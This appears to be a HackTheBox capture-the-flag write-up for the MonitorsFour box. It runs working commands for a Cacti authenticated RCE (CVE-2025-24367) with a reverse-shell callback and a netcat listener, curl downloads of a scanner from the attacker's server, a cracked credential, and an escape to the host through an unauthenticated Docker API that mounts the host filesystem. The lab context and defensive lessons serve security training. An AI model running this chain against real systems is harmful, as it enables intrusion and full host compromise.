





# HackTheBox — MonitorsFour Writeup

MonitorsFour is a medium-difficulty Windows box running WSL2 and Docker Desktop — a setup that mirrors plenty of real-world developer environments. The attack chain is elegant: abuse a brand-new authenticated RCE in Cacti to land inside a container, then pivot through an unauthenticated Docker API socket to mount the Windows host filesystem and read the root flag without ever touching a traditional privesc.

---

## Overview

The box exposes a corporate web app and a Cacti network monitoring instance. After enumerating exposed configuration files and cracking a credential from a database hash, we authenticate to Cacti and exploit CVE-2025-24367 for a shell inside a Docker container. From there, internal scanning reveals the Docker daemon is listening on port 2375 with zero authentication — game over for the host.

---

## Reconnaissance

### Port Scanning

Starting with a full TCP scan:

```bash
nmap -sC -sV -p- --min-rate 5000 -oN monitorsfour.nmap <TARGET>
```



Two interesting ports. Port 80 redirects to a hostname, so the first order of business is adding `monitorsfour.htb` to `/etc/hosts`. Port 5985 is WinRM — I'll keep that in mind for later if I find credentials.

### Web Enumeration

The main site is a standard corporate landing page with a login at `/login` and a password reset at `/forgot-password`. The backend is PHP 8.3.27 behind nginx. Nothing immediately exciting, but the interesting stuff usually lives in subdomains and forgotten endpoints.

I ran subdomain fuzzing alongside a broader directory scan:

```bash
ffuf -u http://monitorsfour.htb/ -H "Host: FUZZ.monitorsfour.htb" \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt \
  -fc 302
```

This turned up `cacti.monitorsfour.htb` — a Cacti 1.2.26 network monitoring installation. Adding that to `/etc/hosts` and visiting it shows the familiar Cacti login page. Version 1.2.26 is worth noting immediately.

For directory enumeration on the main domain, I made the mistake of starting with a small wordlist and getting nothing interesting. Switching to a larger SecLists wordlist was the key move:

```bash
ffuf -u http://monitorsfour.htb/FUZZ \
  -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt \
  -mc 200,301,302
```

This surfaced two critical findings:

1. An exposed `.env` file containing application configuration
2. A user enumeration endpoint at `/user?token=0`

The `.env` file gave away database connection details — credentials for the backend database. Poking at `/user?token=0` confirmed Marcus as a valid user. With database access details in hand, I could query the Cacti user table and retrieve a password hash for Marcus, which cracked quickly as an MD5 hash:

```
marcus:wonderful1
```

Password reuse is a gift that keeps giving — these credentials worked directly on the Cacti login.

---

## Foothold

### CVE-2025-24367 — Cacti Authenticated RCE

Cacti 1.2.26 is vulnerable to CVE-2025-24367, an authenticated remote code execution vulnerability via the Graph Template functionality. This is a relatively fresh CVE, and there's a working PoC available. The "authenticated" requirement isn't much of a barrier when we already have valid credentials.

I grabbed the PoC and set up a listener before firing:

```bash
nc -lvnp 4444
```

Then ran the exploit, pointing it at our Cacti instance and specifying our tun0 address for the callback:

```bash
python3 exploit.py -u marcus -p wonderful1 -i <VPN_IP> -l 4444 \
  -url http://cacti.monitorsfour.htb/cacti
```



We're in — but as `www-data` inside a Docker container. A few quick checks paint the full picture:

```bash
cat /etc/os-release    # Debian 13 (Trixie)
hostname               # 821fbd6a43fa
cat /etc/resolv.conf   # Docker DNS — reveals host IP
ip addr                # Container: 172.18.0.3, Gateway: 172.18.0.1
```

The `/etc/resolv.conf` trick is one of my favourite quick wins in Docker containers — it reliably leaks the Docker host's IP. Here it showed `192.168.65.7` as the Docker Desktop host.

The user flag was sitting in `/home/marcus/user.txt` — Marcus's home directory was accessible from the container's filesystem perspective.

---

## Privilege Escalation

### Internal Network Reconnaissance

Being inside a container means the standard Linux privesc checklist doesn't apply in the usual way. The real prize is breaking out to the host. To understand what's reachable, I needed a port scanner I could run from inside the container without installing anything permanently.

I served `fscan` (a Go-based internal network scanner) from my Kali box:

```bash
python3 -m http.server 8000
```

Then pulled it down into the container and made it executable:

```bash
curl http://<VPN_IP>:8000/fscan -o /tmp/fscan && chmod +x /tmp/fscan
```

Now scanning the Docker host:

```bash
./fscan -h 192.168.65.7 -p 1-65535
```



Port 2375 is the Docker daemon's unauthenticated HTTP API — and fscan is already flagging it as exploitable. This is the critical finding. Docker's API on port 2375 (as opposed to 2376 with TLS) means anyone who can reach it has full control over the Docker daemon, and by extension, the host filesystem.

### Abusing the Unauthenticated Docker API

The attack is straightforward: use the Docker API to create a new privileged container that mounts the host's root filesystem, then exec commands into it. No need for any fancy exploits.

First, confirm access and get a feel for the environment:

```bash
curl http://192.168.65.7:2375/version
curl http://192.168.65.7:2375/containers/json
```

The `/version` endpoint confirms we're talking to Docker Engine, and `/containers/json` lists the running containers — including the project path `C:\Users\Administrator\Documents\docker_setup`, which confirms the Windows filesystem layout we'll need later.

Now, create a privileged container using the already-present `alpine` image, with the host root mounted at `/hostfs`:

```bash
curl -X POST -H "Content-Type: application/json" \
  http://192.168.65.7:2375/containers/create?name=pwned \
  -d '{
    "Image": "alpine",
    "Cmd": ["tail", "-f", "/dev/null"],
    "HostConfig": {
      "Privileged": true,
      "Binds": ["/:/hostfs"]
    }
  }'
```

This returns a container ID. Start it:

```bash
curl -X POST http://192.168.65.7:2375/containers/CONTAINER_ID/start
```

Now create an exec instance to find the root flag. On WSL2 with Docker Desktop, the Windows host filesystem is mounted inside the WSL2 VM at `/mnt/host/c`, so from our container it'll be at `/hostfs/mnt/host/c`:

```bash
curl -X POST -H "Content-Type: application/json" \
  http://192.168.65.7:2375/containers/CONTAINER_ID/exec \
  -d '{
    "AttachStdout": true,
    "AttachStderr": true,
    "Cmd": ["find", "/hostfs", "-name", "root.txt"]
  }'
```

That returns an exec ID. Fire it:

```bash
curl -X POST -H "Content-Type: application/json" \
  http://192.168.65.7:2375/exec/EXEC_ID/start \
  -d '{"Detach": false, "Tty": false}' --output -
```



Reading the flag is the same pattern — create another exec with `cat /hostfs/mnt/host/c/Users/Administrator/Desktop/root.txt` and start it.



Root flag captured — without ever getting a shell on the Windows host directly.

---

## Lessons Learned

**Wordlist size matters more than you think.** The critical `.env` file and user enumeration endpoint only appeared with a larger wordlist. Starting big (or doing a second pass with raft-large) should be standard practice, not an afterthought.

**Check `/etc/resolv.conf` immediately in any container.** It's the fastest way to identify the Docker host's IP and plan your next move. Takes five seconds and has a high payoff.

**CVE-2025-24367 requires authentication, but that's a low bar.** The credential chain here was: exposed `.env` → database creds → crack MD5 hash → password reuse on Cacti admin. Each step was trivial. "Authenticated RCE" shouldn't give defenders false comfort if credential hygiene is poor.

**Port 2375 is an instant game-over.** The Docker API without TLS or authentication means complete host compromise via a few curl commands. If you're doing a pentest and find this port open internally, stop and write up a critical finding immediately. In production environments, the Docker daemon should never be exposed this way.

**WSL2 + Docker Desktop has a specific filesystem quirk.** The Windows `C:\` drive appears at `/mnt/host/c` inside the WSL2 VM, which means from a container with the host root mounted, the path is `/hostfs/mnt/host/c`. Knowing this ahead of time saves time fumbling around the directory tree.

**fscan is excellent for container-based internal recon.** It's a single static binary, scans fast, and auto-detects common vulnerabilities like the Docker API exposure. Keep it in your toolkit for lateral movement scenarios.
